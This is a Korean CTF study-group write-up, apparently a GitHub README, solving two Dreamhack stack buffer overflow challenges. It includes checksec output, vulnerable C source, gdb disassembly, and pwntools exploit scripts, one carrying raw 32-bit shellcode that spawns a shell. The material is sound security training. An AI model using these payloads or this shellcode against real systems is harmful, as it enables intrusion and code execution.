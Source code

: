 # CTF-study_week01

> _필수과제 두문제 풀이와 각자 공부한 내용에 대해 간단하게 발표하는 시간을 갖겠습니다._

---
## assignment 1
[basic_exploitation_000](https://dreamhack.io/wargame/challenges/2)


### 1. 보호 기법 확인
```c
//checksec 파일명 or checksec --file 파일명

Ubuntu 16.04
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```
어떠한 보호기법도 적용x

32bit 환경이기 때문에 스택프레임구조는 buf(n) | sfp(4) | ret(4) 
no relro -> got overwrite 가능
no canary found -> bof공격 가능
nx disabled -> shellcode 삽입가능
no pie -> 주소 변경 없음 

checksec 는 실행파일에 걸려 있는 보안 메커니즘을 확인해 주는 셸 스크립트입니다.

```c
//ls -l

total 20
-rw-r--r-- 1 unstraw0454 unstraw0454 5896 Mar 16 23:30 basic_exploitation_000
-rw-r--r-- 1 unstraw0454 unstraw0454  450 Mar 16 23:30 basic_exploitation_000.c
-rw-r--r-- 1 unstraw0454 unstraw0454  105 Mar 16 23:30 basic_exploitation_000.c:Zone.Identifier
-rw-r--r-- 1 unstraw0454 unstraw0454  105 Mar 16 23:30 basic_exploitation_000:Zone.Identifier
```
실행권한이 없으니 실행 권한을 줍니다.

`chmod +x basic_exploitation_000`

```c
//./basic_exploitation_000 실행하면..
 
buf = (0xffeb0078)
>
```
실행할때마다 buf 값이 계속 다르게 나온다...
`ASLR`이 걸려있구나..

간단하게보면 
```c
//basic_exploitation_000.c

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    printf("buf = (%p)\n", buf);
    scanf("%141s", buf);

    return 0;
}
```
공백포함 141의 str을 받을 수 있는데 buf크기가 0x80(128)이니 bof가 발생할 수 있다. 


### 2. gdb
`disass main`
```c
Dump of assembler code for function main:
   0x080485d9 <+0>:     push   ebp
   0x080485da <+1>:     mov    ebp,esp
   0x080485dc <+3>:     add    esp,0xffffff80
   0x080485df <+6>:     call   0x8048592 <initialize>
   0x080485e4 <+11>:    lea    eax,[ebp-0x80]
   0x080485e7 <+14>:    push   eax
   0x080485e8 <+15>:    push   0x8048699
   0x080485ed <+20>:    call   0x80483f0 <printf@plt>
   0x080485f2 <+25>:    add    esp,0x8
   0x080485f5 <+28>:    lea    eax,[ebp-0x80]
   0x080485f8 <+31>:    push   eax
   0x080485f9 <+32>:    push   0x80486a5
   0x080485fe <+37>:    call   0x8048460 <__isoc99_scanf@plt>
   0x08048603 <+42>:    add    esp,0x8
   0x08048606 <+45>:    mov    eax,0x0
   0x0804860b <+50>:    leave
   0x0804860c <+51>:    ret
End of assembler dump.
```
` 0x080485f5 <+28>:    lea    eax,[ebp-0x80]` 에서 
buf의 할당된 크기가 0x80임을 알 수 있다.


### 3. Payload
```py
from pwn import *

r= remote("host3.dreamhack.games",23029)

r.recvuntil("(")
buf = int (r.recv(10),16)
r.recvline()

payload =  b"\x31\xc0\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80"
payload += b'A'* (0x80-len(payload))
payload += b'B' *0x4
payload += p32(buf)
print(payload)
#context.log_level = "debug"
r.sendline(payload)
r.interactive()
```
shellcode 가 없으므로 `shellcode`를 넣어줘야한다. <br>scanf를 우회할수있는 32bit 쉘코드는 `"\x31\xc0\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80"`

buf크기 (0x80(shellcode 포함)) + SEP(0x4) + RET(0x4)

 
## assignment 2
[basic_exploitation_001](https://dreamhack.io/wargame/challenges/3)
### 1. 보호기법 확인
```c
//checksec 파일명 or checksec --file 파일명

Ubuntu 16.04
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


void read_flag() {
    system("cat /flag");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    gets(buf);

    return 0;
}
```
`gets` 입력 함수는 bof 취약한 함수이다.
buf크기 만큼 덮고 SFP (4) 만큼 덮고 RET 로 read_flag() 함수 주소를 적으면된다.

### 2. gdb
gdb로 `info func`를 통해 read_flag의 함수주소를 본다.
0x080485b9

### 3. Payload 
```py
from pwn import *

r= remote("host3.dreamhack.games",17163)

payload = b'A'*0x80
payload += b'B'*0x4
payload += p32(0x080485b9)
r.sendline(payload)
r.interactive()
```

## bof basic 문제
[ELF x64 - Stack buffer overflow - basic](https://www.root-me.org/en/Challenges/App-System/ELF-x64-Stack-buffer-overflow-basic)

---
- 어떤 문제를 풀지 정해줄까 아니면 각자 풀고 싶은 워게임 풀어오는 것으로 할까🤔?..<br>
 필수과제 + 선택과제 는 어떤지? 
 
# 과제


## 참고자료
[checksec 보호기법](https://hackyboiz.github.io/2021/10/27/y00n_nms/linux-mitigation/)

[shellcode](https://yun-2.tistory.com/entry/Dreamhack-Level2-basicexploitation000)

